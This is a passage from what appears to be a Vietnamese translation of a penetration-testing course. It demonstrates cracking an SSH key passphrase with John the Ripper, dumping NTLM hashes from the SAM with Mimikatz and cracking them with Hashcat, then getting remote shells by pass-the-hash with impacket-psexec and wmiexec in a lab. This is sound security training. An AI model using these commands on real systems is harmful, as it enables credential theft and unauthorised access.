                                   *Listing 27 - Các lần thử kết nối SSH với private key*

Không có mật khẩu nào trong text file hoạt động như passphrase này. Tuy nhiên, trong một penetration test thực tế, chúng ta sẽ giữ các mật khẩu này để dùng cho nhiều vector khác, bao gồm spray attack, hoặc các tấn công nhắm vào user dave trên những hệ thống khác. Tuy vậy, chúng ta vẫn cần một passphrase để sử dụng private key của dave.

Theo file note.txt, một password policy mới đã được bật vào tháng 1 năm 2022. Có xác suất cao là dave có một passphrase đáp ứng password policy mới này.

Theo cracking methodology, bước tiếp theo là chuyển private key sang định dạng hash cho các cracking tool. Chúng ta sẽ dùng script chuyển đổi ssh2john từ bộ JtR và lưu hash kết quả vào ssh.hash.

```
kali@kali:~/passwordattacks$ ssh2john id_rsa > ssh.hash

kali@kali:~/passwordattacks$ cat ssh.hash
id_rsa:$sshng$6$16$7059e78a8d3764ea1e883fcdf592feb7$1894$6f70656e7373682d6b65792d7631000000000a6165733235362d6374720000000662637279707400000018000000107059e78a8d3764ea1e883fcdf592feb7000000100000000100000197000000077373682...
```

                                      *Listing 28 - Sử dụng ssh2john để định dạng hash*

Trong output này, “$6$” biểu thị SHA-512. Tương tự như trước, chúng ta sẽ loại bỏ filename trước dấu hai chấm đầu tiên. Sau đó, chúng ta sẽ xác định Hashcat mode phù hợp.

```
kali@kali:~/passwordattacks$ hashcat -h | grep -i "ssh" 
...
  10300 | SAP CODVN H (PWDSALTEDHASH) iSSHA-1                 | Enterprise Application Software (EAS)
  22911 | RSA/DSA/EC/OpenSSH Private Keys ($0$)               | Private Key
  22921 | RSA/DSA/EC/OpenSSH Private Keys ($6$)               | Private Key
  22931 | RSA/DSA/EC/OpenSSH Private Keys ($1, $3$)           | Private Key
  22941 | RSA/DSA/EC/OpenSSH Private Keys ($4$)               | Private Key
  22951 | RSA/DSA/EC/OpenSSH Private Keys ($5$)               | Private Key
```

                                       *Listing 29 - Xác định mode đúng cho Hashcat*

Kết quả cho thấy “$6$” là mode 22921.

Bây giờ, hãy tiếp tục theo methodology và tạo một rule file, đồng thời chuẩn bị một wordlist để crack hash. Chúng ta sẽ xem lại note.txt để xác định nên tạo rules nào và sẽ đưa những mật khẩu nào vào wordlist.

```
kali@kali:~/passwordattacks$ cat note.txt
Dave's password list:

Window
rickc137
dave
superdave
megadave
umbrella

Note to myself:
New password policy starting in January 2022. Passwords need 3 numbers, a capital letter and a special character
```

                            *Listing 30 - Nội dung note.txt để xác định rules và wordlist*

Dựa trên đó, chúng ta có thể bắt đầu tạo rule file. Chúng ta phải bao gồm ba chữ số, ít nhất một chữ hoa, và ít nhất một ký tự đặc biệt.

Chúng ta nhận thấy dave đã dùng “137” cho ba chữ số trong mật khẩu “rickc137”. Ngoài ra, mật khẩu “Window” bắt đầu bằng một chữ cái viết hoa. Hãy dùng một rule function để viết hoa chữ cái đầu tiên. Không có ký tự đặc biệt nào xuất hiện trong các mật khẩu đã liệt kê. Cho lần thử cracking đầu tiên, chúng ta sẽ chỉ dùng các ký tự đặc biệt phổ biến nhất là “!”, “@”, và “#”, vì chúng là ba ký tự đặc biệt đầu tiên khi gõ chúng từ phía bên trái của nhiều layout bàn phím.

Dựa trên phân tích này, chúng ta sẽ tạo các rule. Chúng ta sẽ dùng c để viết hoa chữ cái đầu tiên và $1 $3 $7 cho các giá trị số. Để xử lý ký tự đặc biệt, chúng ta sẽ tạo các rule để append các ký tự đặc biệt khác nhau $!, $@, và $#.

```
kali@kali:~/passwordattacks$ cat ssh.rule
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```

                                           *Listing 31 - Nội dung của file rules ssh.rule*

Tiếp theo, chúng ta sẽ tạo một file wordlist chứa các mật khẩu từ note.txt và lưu output vào ssh.passwords.

```
kali@kali:~/passwordattacks$ cat ssh.passwords
Window
rickc137
dave
superdave
megadave
umbrella
```

                                      *Listing 32 - Nội dung của wordlist ssh.passwords*

Giờ chúng ta có thể dùng Hashcat để thực hiện cracking bằng cách chỉ định rules file, wordlist, và mode.

```
kali@kali:~/passwordattacks$ hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule --force
hashcat (v6.2.5) starting
...

Hashfile 'ssh.hash' on line 1 ($sshng...cfeadfb412288b183df308632$16$486): Token length exception
No hashes loaded.
...
```

                                         *Listing 33 - Lần thử cracking thất bại với Hashcat*

Không may, chúng ta nhận được lỗi cho biết hash gây ra “Token length exception”. Khi chúng ta nghiên cứu điều này bằng search engine, một số thảo luận gợi ý rằng các private key hiện đại và passphrase tương ứng của chúng được tạo với cipher aes-256-ctr, mà mode 22921 của Hashcat không hỗ trợ.

Điều này củng cố lợi ích của việc sử dụng nhiều công cụ, vì John the Ripper (JtR) có thể xử lý cipher này.

Để có thể dùng các rules đã tạo trước đó trong JtR, chúng ta cần đặt tên cho rules và append chúng vào file cấu hình /etc/john/john.conf. Trong bài demo này, chúng ta sẽ đặt tên rule là sshRules với cú pháp đặt tên rule “List.Rules” (như trong Listing 34). Chúng ta sẽ dùng sudo và sh -c để append nội dung của rule file vào /etc/john/john.conf.

```
kali@kali:~/passwordattacks$ cat ssh.rule
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#

kali@kali:~/passwordattacks$ sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'
```

                              *Listing 34 - Thêm các rules đã đặt tên vào file cấu hình JtR*

Giờ khi đã thêm sshRules thành công vào file cấu hình của JtR, chúng ta có thể dùng john để crack passphrase ở bước cuối cùng của methodology. Chúng ta sẽ định nghĩa wordlist bằng --wordlist=ssh.passwords, chọn rule đã tạo bằng --rules=sshRules, và cung cấp hash của private key làm tham số cuối cùng, ssh.hash.

```
kali@kali:~/passwordattacks$ john --wordlist=ssh.passwords --rules=sshRules ssh.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Umbrella137!     (?)     
1g 0:00:00:00 DONE (2022-05-30 11:19) 1.785g/s 32.14p/s 32.14c/s 32.14C/s Window137!..Umbrella137#
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

                                                    *Listing 35 - Crack hash bằng JtR*

Chúng ta đã crack thành công passphrase của private key! Excellent!

Đúng như dự đoán, mật khẩu “Umbrella137!” đáp ứng các yêu cầu của password policy và cũng khớp với sở thích và thói quen cá nhân của dave. Điều này không có gì bất ngờ, vì người dùng hiếm khi thay đổi pattern mật khẩu của họ.

Bây giờ, hãy dùng passphrase để kết nối tới hệ thống mục tiêu qua SSH.

```
kali@kali:~/passwordattacks$ ssh -i id_rsa -p 2222 dave@192.168.50.201
Enter passphrase for key 'id_rsa':
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org/>.

You can setup the system with the command: setup-alpine

You may change this message by editing /etc/motd.

0d6d28cfbd9c:~$
```

                *Listing 36 - Nhập Passphrase để kết nối tới hệ thống mục tiêu bằng SSH*

Chúng ta đã kết nối thành công tới hệ thống mục tiêu bằng cách cung cấp passphrase chính xác cho private key.

Trong phần này, chúng ta một lần nữa thực hiện cracking methodology và củng cố ý tưởng về việc chú ý chi tiết đến các pattern hành vi của con người. Chúng ta đã thích nghi với một lỗi trong công cụ chính (Hashcat) bằng cách dùng một công cụ khác (JtR) thay thế. Trong Learning Unit tiếp theo, chúng ta sẽ thảo luận về các cơ chế hash dựa trên Windows và minh họa các cuộc tấn công nhắm vào chúng.

---

# 3. Làm việc với Password Hash

---

Learning Unit này bao gồm các Learning Objectives sau:

- Thu thập và crack NTLM hash
- Pass NTLM hash
- Thu thập và crack Net-NTLMv2 hash
- Relay Net-NTLMv2 hash

Trong các penetration test thực tế, chúng ta thường giành được quyền truy cập đặc quyền (privileged access) vào một hệ thống và có thể tận dụng các quyền này để trích xuất password hash từ hệ điều hành. Chúng ta cũng có thể tạo ra và chặn các yêu cầu xác thực mạng của Windows, sau đó sử dụng chúng cho các cuộc tấn công tiếp theo như pass-the-hash hoặc relay attack.

Mặc dù trong phần lớn các bài lab chúng ta sẽ đối mặt với môi trường Active Directory, Learning Unit này chỉ tập trung vào các máy Windows cục bộ. Tuy nhiên, các kỹ năng được học ở đây là bước đệm quan trọng cho các Module Active Directory ở phần sau của khóa học này.

Trong Learning Unit này, chúng ta sẽ minh họa cách thu thập hash từ hệ điều hành Windows. Chúng ta sẽ chỉ ra cách crack các hash này hoặc sử dụng chúng để giành quyền truy cập vào các hệ thống khác. Để làm điều đó, chúng ta sẽ đề cập đến hai cơ chế hash khác nhau trên Windows: NT LAN Manager (NTLM) hash và Net-NTLMv2.

---

## 3.1. Cracking NTLM

---

Trước khi bắt đầu crack NTLM hash, chúng ta hãy thảo luận về cơ chế triển khai NTLM hash và cách nó được sử dụng. Sau đó, chúng ta sẽ minh họa cách thu thập và crack NTLM hash trên Windows.

Windows lưu trữ các mật khẩu người dùng đã được hash trong file cơ sở dữ liệu Security Account Manager (SAM), được sử dụng để xác thực người dùng cục bộ hoặc từ xa.

Để ngăn chặn các cuộc tấn công offline vào cơ sở dữ liệu SAM, Microsoft đã giới thiệu tính năng SYSKEY trong Windows NT 4.0 SP3, tính năng này mã hóa một phần file SAM. Mật khẩu có thể được lưu ở hai định dạng hash khác nhau: LAN Manager (LM) và NTLM. LM dựa trên DES, và được biết là rất yếu. Ví dụ, mật khẩu không phân biệt chữ hoa chữ thường và không thể vượt quá mười bốn ký tự. Nếu mật khẩu dài hơn bảy ký tự, nó sẽ bị chia thành hai chuỗi, mỗi chuỗi được hash riêng biệt. LM bị vô hiệu hóa mặc định kể từ Windows Vista và Windows Server 2008.

Trên các hệ thống hiện đại, các hash trong SAM được lưu dưới dạng NTLM hash. Cơ chế hash này khắc phục nhiều điểm yếu của LM. Ví dụ, mật khẩu có phân biệt chữ hoa chữ thường và không còn bị chia thành các phần nhỏ, yếu hơn. Tuy nhiên, NTLM hash được lưu trong cơ sở dữ liệu SAM không được salt.

Salt là các bit ngẫu nhiên được thêm vào mật khẩu trước khi hash. Chúng được sử dụng để ngăn chặn các cuộc tấn công trong đó attacker pre-compute một danh sách hash và sau đó thực hiện tra cứu trên các hash đã được tính trước để suy ra plaintext password. Một danh sách hoặc bảng các mật khẩu được tính trước như vậy được gọi là Rainbow Table và cuộc tấn công tương ứng được gọi là Rainbow Table Attack.

Chúng ta sử dụng thuật ngữ “NTLM hash” để chỉ NTHash theo đúng nghĩa kỹ thuật. Vì “NTLM hash” được sử dụng phổ biến hơn trong ngành, chúng ta dùng thuật ngữ này trong khóa học để tránh nhầm lẫn.

Chúng ta không thể chỉ đơn giản copy, đổi tên hoặc di chuyển cơ sở dữ liệu SAM từ `C:\Windows\system32\config\sam` khi hệ điều hành Windows đang chạy, vì kernel giữ một file system lock độc quyền trên file này.

May mắn thay, chúng ta có thể sử dụng công cụ Mimikatz để thực hiện phần việc phức tạp này và vượt qua hạn chế trên. Mimikatz cung cấp chức năng trích xuất plaintext password và password hash từ nhiều nguồn khác nhau trong Windows và tận dụng chúng cho các cuộc tấn công tiếp theo như pass-the-hash. Mimikatz cũng bao gồm module sekurlsa, dùng để trích xuất password hash từ bộ nhớ của tiến trình Local Security Authority Subsystem (LSASS). LSASS là một tiến trình trong Windows chịu trách nhiệm xử lý xác thực người dùng, thay đổi mật khẩu và tạo access token.

LSASS rất quan trọng đối với chúng ta vì nó cache NTLM hash và các thông tin xác thực khác, mà chúng ta có thể trích xuất bằng module sekurlsa của Mimikatz. Chúng ta cần hiểu rằng LSASS chạy dưới user SYSTEM và do đó có mức đặc quyền còn cao hơn cả một tiến trình được khởi chạy với quyền Administrator.

Vì lý do này, chúng ta chỉ có thể trích xuất mật khẩu nếu đang chạy Mimikatz với quyền Administrator (hoặc cao hơn) và đã bật access right SeDebugPrivilege. Quyền này cho phép chúng ta debug không chỉ các tiến trình do chúng ta sở hữu, mà còn cả tiến trình của tất cả người dùng khác.

Chúng ta cũng có thể nâng quyền lên tài khoản SYSTEM bằng các công cụ như PsExec hoặc chức năng token elevation tích hợp sẵn trong Mimikatz để có được các quyền cần thiết. Chức năng token elevation yêu cầu access right SeImpersonatePrivilege để hoạt động, nhưng tất cả local administrator đều có quyền này theo mặc định.

Bây giờ khi đã có hiểu biết cơ bản về NTLM hash là gì và chúng ta có thể tìm thấy chúng ở đâu, hãy minh họa việc thu thập và crack chúng.

Chúng ta sẽ trích xuất mật khẩu từ SAM của máy MARKETINGWK01 tại địa chỉ 192.168.50.210. Chúng ta có thể đăng nhập hệ thống qua RDP với user offsec, sử dụng mật khẩu lab.

Chúng ta sẽ bắt đầu bằng cách sử dụng Get-LocalUser để kiểm tra các user tồn tại cục bộ trên hệ thống.

```
PS C:\Users\offsec> Get-LocalUser

Name               Enabled Description
----               ------- -----------
Administrator      False   Built-in account for administering the computer/domain
DefaultAccount     False   A user account managed by the system.
Guest              False   Built-in account for guest access to the computer/domain
nelly              True
offsec             True
WDAGUtilityAccount False   A user account managed and used by the system for Windows Defender Application Guard scen...
...
```

                                  *Listing 37 - Hiển thị tất cả user cục bộ trong PowerShell*

Output của Listing 37 cho thấy tồn tại một user khác tên là nelly trên hệ thống MARKETINGWK01. Mục tiêu của chúng ta trong ví dụ này là thu được plaintext password của nelly bằng cách lấy NTLM hash và crack nó.

Chúng ta đã biết rằng thông tin xác thực của user được lưu khi họ đăng nhập vào hệ thống Windows, nhưng credential cũng có thể được lưu theo những cách khác. Ví dụ, credential cũng được lưu khi một service chạy với một user account.

Chúng ta sẽ sử dụng Mimikatz (nằm tại C:\tools\mimikatz.exe) để kiểm tra các credential được lưu trên hệ thống. Hãy khởi động PowerShell với quyền administrator bằng cách click vào biểu tượng Windows trên taskbar và gõ “powershell”. Chúng ta chọn Windows PowerShell và click vào Run as Administrator như trong hình bên dưới. Sau đó, chúng ta xác nhận cửa sổ User Account Control (UAC) bằng cách click Yes.


                              *Figure 8: Khởi động PowerShell với quyền Administrator*

Trong cửa sổ PowerShell, chúng ta chuyển đến thư mục C:\tools và khởi động Mimikatz.

```
PS C:\Windows\system32> cd C:\tools

PS C:\tools> ls

    Directory: C:\tools

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/31/2022  12:25 PM        1355680 mimikatz.exe

PS C:\tools> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

                                                   *Listing 38 - Khởi động Mimikatz*

Theo prompt, Mimikatz đang chạy và chúng ta có thể tương tác với nó thông qua môi trường command-line. Mỗi command bao gồm một module và một lệnh, được phân tách bằng hai dấu hai chấm, ví dụ privilege::debug.

Chúng ta có thể sử dụng nhiều command khác nhau để trích xuất mật khẩu từ hệ thống. Một trong những command Mimikatz phổ biến nhất là `sekurlsa::logonpasswords`, lệnh này cố gắng trích xuất plaintext password và password hash từ tất cả các nguồn có sẵn. Vì lệnh này tạo ra lượng output rất lớn, nên thay vào đó chúng ta sẽ sử dụng `lsadump::sam`, lệnh này sẽ trích xuất NTLM hash từ SAM. Đối với lệnh này, trước tiên chúng ta phải nhập `token::elevate` để nâng quyền lên SYSTEM user.

Đối với cả hai lệnh sekurlsa::logonpasswords và lsadump::sam, chúng ta phải bật access right SeDebugPrivilege, điều này sẽ được thực hiện bằng `privilege::debug`.

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

656     {0;000003e7} 1 D 34811          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;000413a0} 1 F 6146616     MARKETINGWK01\offsec    S-1-5-21-4264639230-2296035194-3358247000-1001  (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 6217216     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
 
mimikatz # lsadump::sam
Domain : MARKETINGWK01
SysKey : 2a0e15573f9ce6cdd6a1c62d222035d5
Local SID : S-1-5-21-4264639230-2296035194-3358247000
 
RID  : 000003e9 (1001)
User : offsec
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
 
RID  : 000003ea (1002)
User : nelly
  Hash NTLM: 3ae8e5f0ffabb3a627672e1600f1ba10
...
```

            *Listing 39 - Bật SeDebugPrivilege, nâng quyền lên SYSTEM và trích xuất NTLM hash*

Output cho thấy chúng ta đã bật thành công access right SeDebugPrivilege và có được quyền SYSTEM. Kết quả của lệnh lsadump::sam hiển thị hai NTLM hash, một của offsec và một của nelly. Vì chúng ta đã biết NTLM hash của offsec được tính từ plaintext password “lab”, chúng ta sẽ bỏ qua nó và tập trung vào NTLM hash của nelly.

Hãy copy NTLM hash này và dán vào file nelly.hash trong thư mục passwordattacks trên máy Kali của chúng ta.

```
kali@kali:~/passwordattacks$ cat nelly.hash     
3ae8e5f0ffabb3a627672e1600f1ba10
```

                                  *Listing 40 - NTLM hash của user nelly trong nelly.hash*

Tiếp theo, chúng ta sẽ lấy hash mode phù hợp từ output trợ giúp của Hashcat.

```
kali@kali:~/passwordattacks$ hashcat --help | grep -i "ntlm"   
                                                                            
   5500 | NetNTLMv1 / NetNTLMv1+ESS                           | Network Protocol
  27000 | NetNTLMv1 / NetNTLMv1+ESS (NT)                      | Network Protocol
   5600 | NetNTLMv2                                           | Network Protocol
  27100 | NetNTLMv2 (NT)                                      | Network Protocol
   1000 | NTLM                                                | Operating System
```

                                         *Listing 41 - Hashcat mode cho NTLM hash*

Output cho thấy mode đúng là 1000.

Giờ chúng ta đã có mọi thứ cần thiết để bắt đầu crack NTLM hash. Chúng ta đã trích xuất hash, và Mimikatz đã output hash ở định dạng mà Hashcat chấp nhận. Bước tiếp theo là chọn wordlist và rule file. Trong ví dụ này, chúng ta sẽ sử dụng wordlist rockyou.txt với rule file best64.rule, file này chứa 64 rule hiệu quả.

Hãy cung cấp đầy đủ các tham số và giá trị cho lệnh hashcat để bắt đầu quá trình cracking.

```
kali@kali:~/passwordattacks$ hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
hashcat (v6.2.5) starting
...
3ae8e5f0ffabb3a627672e1600f1ba10:nicole1                  
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 3ae8e5f0ffabb3a627672e1600f1ba10
Time.Started.....: Thu Jun  2 04:11:28 2022, (0 secs)
Time.Estimated...: Thu Jun  2 04:11:28 2022, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 17926.2 kH/s (2.27ms) @ Accel:256 Loops:77 Thr:1 Vec:8
...
```

                          *Listing 42 - Crack NTLM hash của user nelly bằng Hashcat*

Output cho thấy chúng ta đã crack thành công NTLM hash của user nelly. Plaintext password dùng để tạo hash này là nicole1. Hãy xác nhận điều này bằng cách kết nối lại hệ thống qua RDP.


                                                *Figure 9: Kết nối RDP với user nelly*

Rất tốt! Chúng ta đã crack thành công NTLM hash và sử dụng mật khẩu để đăng nhập qua RDP.

Trong phần này, chúng ta đã có hiểu biết cơ bản về SAM và NTLM hash. Chúng ta cũng đã minh họa cách sử dụng Mimikatz để thu thập NTLM hash và áp dụng cracking methodology để crack hash.

Mặc dù chúng ta thực hiện tất cả điều này trên một hệ thống cục bộ không có môi trường Active Directory, quy trình này vẫn áp dụng cho các môi trường enterprise và là một kỹ năng then chốt trong hầu hết các penetration test thực tế. Trong phần tiếp theo, chúng ta sẽ minh họa cách tận dụng NTLM hash ngay cả khi chúng ta không thể crack chúng.

---

## 3.2. Passing NTLM

---

Trong phần trước, chúng ta đã thu được một NTLM hash và crack nó. Tùy vào độ mạnh của mật khẩu, việc này có thể tốn thời gian hoặc không khả thi. Trong phần này, chúng ta sẽ minh họa cách tận dụng một NTLM hash mà không cần crack nó.

Trước tiên, chúng ta sẽ minh họa kỹ thuật pass-the-hash (PtH). Chúng ta có thể sử dụng kỹ thuật này để xác thực tới một mục tiêu cục bộ hoặc từ xa với một cặp username và NTLM hash hợp lệ thay vì plaintext password. Điều này khả thi vì NTLM/LM password hash không được salt và giữ nguyên (static) giữa các phiên. Hơn nữa, nếu chúng ta phát hiện một password hash trên một mục tiêu, chúng ta không chỉ có thể dùng nó để xác thực tới chính mục tiêu đó, mà còn có thể xác thực tới một mục tiêu khác nữa, miễn là mục tiêu thứ hai có một account với cùng username và password. Để tận dụng điều này thành code execution theo bất kỳ hình thức nào, account đó cũng cần có quyền administrative trên mục tiêu thứ hai.

Nếu chúng ta không sử dụng local Administrator user trong pass-the-hash, máy mục tiêu cũng cần được cấu hình theo một cách nhất định để có thể code execution thành công. Kể từ Windows Vista, tất cả các phiên bản Windows đều bật UAC remote restrictions theo mặc định. Điều này ngăn phần mềm hoặc command chạy với quyền administrative trên các hệ thống từ xa. Điều này về cơ bản giảm thiểu vector tấn công này đối với các user trong local administrator group, ngoại trừ local Administrator account.

Trong bài demo này, giả sử chúng ta đã giành được quyền truy cập vào FILES01 và thu được mật khẩu (password123!) cho user gunther. Chúng ta muốn trích xuất NTLM hash của Administrator và sử dụng nó để xác thực tới máy FILES02. Mục tiêu của chúng ta là truy cập một SMB share bị hạn chế và tận dụng pass-the-hash để thu được một interactive shell trên FILES02.

Chúng ta sẽ giả định rằng local Administrator account trên cả hai máy, FILES01 và FILES02, có cùng mật khẩu. Điều này khá phổ biến và thường được gặp trong các bài assessment thực tế.

Chúng ta sẽ bắt đầu bằng cách kết nối tới FILES01 (192.168.50.211) bằng RDP với username là gunther và password là password123!. Sau đó, chúng ta mở Windows Explorer và nhập đường dẫn của SMB share (\192.168.50.212\secrets) vào navigation bar. Sau khi nhập, chúng ta sẽ được yêu cầu nhập credential để kết nối tới share.


                                                   *Figure 10: RDP Connection as nelly*

Khi chúng ta nhập credential của user gunther, chúng ta được thông báo rằng Windows không thể truy cập share này. Điều này có nghĩa là user account không tồn tại trên FILES02 hoặc nó không có quyền cần thiết để truy cập share.

Bây giờ, hãy lấy NTLM hash của Administrator bằng Mimikatz, giống như chúng ta đã làm ở phần trước. Một lần nữa, Mimikatz nằm trong C:\tools trên FILES01. Chúng ta sẽ mở một cửa sổ PowerShell với quyền Administrator và chạy Mimikatz. Tiếp theo, chúng ta nhập các lệnh `privilege::debug`, `token::elevate`, và `lsadump::sam` để lấy NTLM hash đã được lưu từ SAM.

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
...

mimikatz # lsadump::sam
...
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 7a38310ea6f0027ee955abed1762964b
...
```

          *Listing 43 - Bật SeDebugPrivilege, lấy SYSTEM user privileges và trích xuất NTLM hash*

Listing 43 hiển thị output của việc trích xuất NTLM hash. Chúng ta sẽ lưu NTLM hash của Administrator để dùng về sau.

Để tận dụng pass-the-hash (PtH), chúng ta cần các tool hỗ trợ xác thực bằng NTLM hash. May mắn là có rất nhiều lựa chọn. Hãy xem qua một vài ví dụ theo các use case khác nhau. Đối với SMB enumeration và management, chúng ta có thể dùng smbclient hoặc CrackMapExec. Đối với command execution, chúng ta có thể dùng các script từ thư viện impacket như psexec.py và wmiexec.py. Chúng ta cũng có thể dùng NTLM hash để không chỉ kết nối tới hệ thống mục tiêu qua SMB, mà còn qua các protocol khác như RDP và WinRM, nếu user có quyền cần thiết. Chúng ta cũng có thể dùng Mimikatz để thực hiện pass-the-hash.

Vì mục tiêu đầu tiên của bài demo này là truy cập một SMB share bằng cách cung cấp một NTLM hash, chúng ta sẽ dùng smbclient.

Để dùng lệnh này, chúng ta cần nhập đường dẫn của share làm tham số đầu tiên bằng cách escape các dấu gạch chéo ngược. Trong trường hợp này, chúng ta sẽ nhập \\192.168.59.212\secrets. Chúng ta sẽ dùng -U Administrator để đặt user và --pw-nt-hash để chỉ định hash.

Sau khi kết nối thành công tới SMB share “secrets” bằng smbclient, chúng ta có thể liệt kê tất cả file trong SMB share bằng dir. Chúng ta cũng có thể dùng lệnh get để tải file về máy Kali.

```
kali@kali:~$ smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Jun  2 16:55:37 2022
  ..                                DHS        0  Thu Jun  2 16:55:35 2022
  secrets.txt                         A        4  Thu Jun  2 11:34:47 2022

                4554239 blocks of size 4096. 771633 blocks available

smb: \> get secrets.txt
getting file \secrets.txt of size 4 as secrets.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

                                        *Listing 44 - Sử dụng smbclient với NTLM hash*

Chúng ta đã kết nối thành công tới SMB share bằng cách cung cấp NTLM hash thay vì mật khẩu. Directory listing cho thấy một file secrets.txt. Sau khi tải file về, chúng ta có thể xem nội dung của nó.

Trong phần đầu của bài demo này, chúng ta đã dùng NTLM hash để truy cập một SMB share. Trong phần thứ hai, mục tiêu của chúng ta là lấy một interactive shell. Một lần nữa, chúng ta có nhiều tool và script khác nhau để lựa chọn, nhưng ở đây chúng ta sẽ dùng script psexec.py từ thư viện impacket.

Script này rất giống với lệnh Sysinternals PsExec gốc. Nó tìm một share có thể ghi và upload một file thực thi lên đó. Sau đó, nó đăng ký file thực thi như một Windows service và khởi chạy nó. Kết quả mong muốn thường là thu được một interactive shell hoặc code execution.

Chúng ta có thể dùng package impacket-scripts để chạy psexec.py trên Kali. Package này chứa các liên kết tới các example script của thư viện impacket và cung cấp một cách dùng thân thiện cho người dùng.

Để thực thi psexec, chúng ta có thể nhập impacket-psexec với hai tham số. Tham số đầu tiên là -hashes, cho phép chúng ta dùng NTLM hash để xác thực tới mục tiêu. Định dạng là “LMHash:NTHash”, trong đó chúng ta chỉ định Administrator NTLM hash ở sau dấu hai chấm. Vì chúng ta chỉ dùng NTLM hash, chúng ta có thể điền phần LMHash bằng 32 số 0.

Tham số thứ hai là định nghĩa mục tiêu theo định dạng “username@ip”.

Ở cuối lệnh, chúng ta có thể chỉ định thêm một tham số khác, dùng để xác định command mà psexec sẽ thực thi trên hệ thống mục tiêu. Nếu để trống, cmd.exe sẽ được thực thi và cung cấp cho chúng ta một interactive shell.

```
kali@kali:~$ impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 192.168.50.212.....
[*] Found writable share ADMIN$
[*] Uploading file nvaXenHl.exe
[*] Opening SVCManager on 192.168.50.212.....
[*] Creating service MhCl on 192.168.50.212.....
[*] Starting service MhCl.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> hostname
FILES02

C:\Windows\system32> ipconfig
 
Windows IP Configuration

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::7992:61cd:9a49:9046%4
   IPv4 Address. . . . . . . . . . . : 192.168.50.212
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.50.254

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> exit

kali@kali:~$
```

                                          *Listing 45 - Dùng psexec để lấy interactive shell*

Chúng ta đã thu được một interactive shell trên FILES02. Do bản chất của psexec.py, chúng ta sẽ luôn nhận được shell dưới quyền SYSTEM thay vì user mà chúng ta dùng để xác thực.

Chúng ta cũng có thể dùng một script impacket khác như wmiexec.py để lấy shell dưới quyền user mà chúng ta dùng để xác thực. Trên Kali, chúng ta sẽ dùng impacket-wmiexec cùng với các tham số đã dùng cho impacket-psexec.

```
kali@kali:~$ impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
files02\administrator

C:\>
```

                                   *Listing 46 - Dùng wmiexec để lấy interactive shell*

Như output của whoami cho thấy, chúng ta đã thu được một shell dưới quyền user Administrator với wmiexec thay vì SYSTEM.

Trong phần này, chúng ta đã dùng pass-the-hash để truy cập một SMB share. Sau đó, chúng ta dùng hash để lấy một interactive shell với impacket-psexec và impacket-wmiexec.

---

## 3.3. Cracking Net-NTLMv2

---

Trong một số penetration test, chúng ta có thể giành được code execution hoặc một shell trên một hệ thống Windows với tư cách là một user không có đặc quyền. Điều này có nghĩa là chúng ta không thể dùng các tool như Mimikatz để trích xuất mật khẩu hoặc NTLM hash. Trong các tình huống như vậy, chúng ta có thể lạm dụng giao thức xác thực mạng Net-NTLMv2. Giao thức này chịu trách nhiệm quản lý quá trình xác thực cho các Windows client và server qua mạng.

